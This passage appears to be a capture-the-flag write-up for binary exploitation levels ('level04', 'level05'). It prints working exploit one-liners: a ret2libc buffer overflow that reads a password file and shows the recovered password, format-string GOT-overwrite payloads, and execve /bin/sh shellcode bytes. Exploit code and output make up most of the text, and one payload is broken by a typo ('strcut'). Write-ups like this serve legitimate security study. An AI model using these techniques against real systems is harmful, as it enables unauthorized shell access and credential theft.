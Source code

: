 This address won't be exact as we execute out exploit outside gdb, we would need to tweak it to get the exact address

Exploit:
```
env -i SHELL="cat /home/users/level05/.pass" ./level04 < <(python -c 'import struct; print("\x90"*156+struct.pack("I", 0xf7e6aed0)+"AAAA"+struct.pack("I", 0xffffdfd0))')
...
... 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
Or
```
(python -c 'import struct; print("\x90"*156+struct.pack("I", 0xf7e6aed0)+"AAAA"+struct.pack("I", 0xffffdfeb))';cat) | env -i SHELL="/bin/sh" ./level04
Give me some shellcode, k
whoami
level05
```

## level05

This program converts uppercase characters in the input to lowercase, and pass the resulting string to `printf()` without providing a format string. After that `exit(0)` is called.

exit_got: 0x80497e0
system: 0xf7e6aed0

b1: 0x80497e0 -> 44752 - 8 = 44744
b3: 0x80497e2 -> 63462 - 44752 = 18710

```
python -c 'import struct;print(struct.pack("I", 0x80497e0)+struct.pack("I", 0x80497e2)+"%44744x%10$hn%18710x%11$hn")'
```

Tried calling `system` but `0` is passed as argument
```
python -c 'import struct;print(struct.pack("I", 0x80497e0)+struct.pack("I", 0x80497e2)+struct.pack("I", 0xffffd682)+struct.pack("I", 0xffffd680)+"%44736x%10$hn"+"%18710x%11$hn"+"%2073x%12$hn"+"%57297x%13$hn")'
```

Shellcode:

* address: 0xffffd6e8 : "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

rop:    0xf7e7 84b2
system: 0xf7e6 aed0
binsh:  0xf7f8 97ec

GOT    ESP+4   ESP+8    ESP+c
ROP + system +   4    + "/bin/sh"


```
python -c 'import struct;print(struct.pack("I", 0x80497e0)+struct.pack("I", 0x80497e2)+struct.pack("I", 0xffffd684)+struct.pack("I", 0xffffd686)+strcut.pack("I", 0xffffd68c)+struct.pack("I", 0xffffd68e)+"%44736x%10$hn"+"%18710x%11$hn"+"%2073x%12$hn"+"%57297x%13$hn")'
```
